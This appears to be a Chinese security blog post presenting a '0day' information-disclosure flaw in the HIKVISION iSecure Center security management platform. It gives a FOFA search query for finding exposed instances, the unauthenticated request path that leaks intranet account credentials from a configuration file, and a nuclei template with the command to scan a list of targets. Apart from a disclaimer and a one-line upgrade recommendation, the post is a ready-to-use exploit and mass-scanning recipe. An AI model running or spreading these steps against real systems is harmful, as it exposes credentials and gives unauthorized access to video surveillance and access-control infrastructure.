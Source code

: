 #  【0day】海康威视综合安防管理平台信息泄露（内网集权账户密码）漏洞

原创 fgz  [ AI与网安 ](javascript:void\(0\);)

**AI与网安** ![]()

微信号 gh_c57275954216

功能介绍 漏洞复现 0day/nday分享 poc/exp分享 渗透工具分享 AI算法在网络安全中的应用

____

___发表于_

收录于合集

  

免责申明： **本
文内容为学习笔记分享，仅供技术学习参考，请勿用作违法用途，任何个人和组织利用此文所提供的信息而造成的直接或间接后果和损失，均由使用者本人负责，与作者无关！！！**

 **  
**

  

01

—

漏洞名称

  

  

海康威视综合安防管理平台信息泄露（内网集权账户密码）漏洞

  

02

—  

漏洞影响

  

HIKVISION iSecure Center综合安防管理平台，版本不详

![]()

  

  

03

—  

漏洞描述

  

HIKVISION iSecure
Center综合安防管理平台是一套“集成化”、“智能化”的平台，通过接入视频监控、一卡通、停车场、报警检测等系统的设备，海康威视综合安防管理平台信息存在信息泄露（内网集权账户密码）漏洞，可以通过解密软件，解密用户名密码。

  

04

—  

FOFA搜索语句  

  * 

    
    
    app="HIKVISION-综合安防管理平台"

![]()

  

05

—  

漏洞复现

  

poc如下  

  * 

    
    
    /portal/conf/config.properties

  

使用浏览器访问

  
  

![]()

证明存在漏洞

  

  

06

—  

nuclei poc

  

poc文件内容如下

  *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   * 

    
    
    id: hikvision-disclosure  
    info:  name: 海康威视综合安防管理平台信息泄露漏洞  author: fgz  severity: high  reference:    - none  description: |    HIKVISION iSecure Center综合安防管理平台是一套“集成化”、“智能化”的平台，通过接入视频监控、一卡通、停车场、报警检测等系统的设备，获取边缘节点数据，实现安防信息化集成与联动，以电子地图为载体，融合各系统能力实现丰富的智能应用。HIKVISION iSecure Center平台基于“统一软件技术架构”先进理念设计，采用业务组件化技术，满足平台在业务上的弹性扩展。该平台适用于全行业通用综合安防业务，对各系统资源进行了整合和集中管理，实现统一部署、统一配置、统一管理和统一调度。存在信息泄露漏洞，密码解密后可以登录后台。  metadata:    fofa-query: app="HIKVISION-综合安防管理平台"    veified: true  tags: hikvision  
    http:  - method: GET    path:      - "{{BaseURL}}/portal/conf/config.properties"  
        matchers-condition: and    matchers:      - type: status        status:          - 200  
          - type: word        part: body        words:          - '@bic'          - 'username'          - 'password'        condition: and

运行POC

  * 

    
    
     .\nuclei.exe -t .\hikvision-disclosure.yaml -l .\1.txt -me result

![]()

  

  

07

—  

修复建议

  

升级到最新版本。

  

预览时标签不可点

微信扫一扫  
关注该公众号

[知道了](javascript:;)

微信扫一扫  
使用小程序

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

： ， 。   视频 小程序 赞 ，轻点两下取消赞 在看 ，轻点两下取消在看

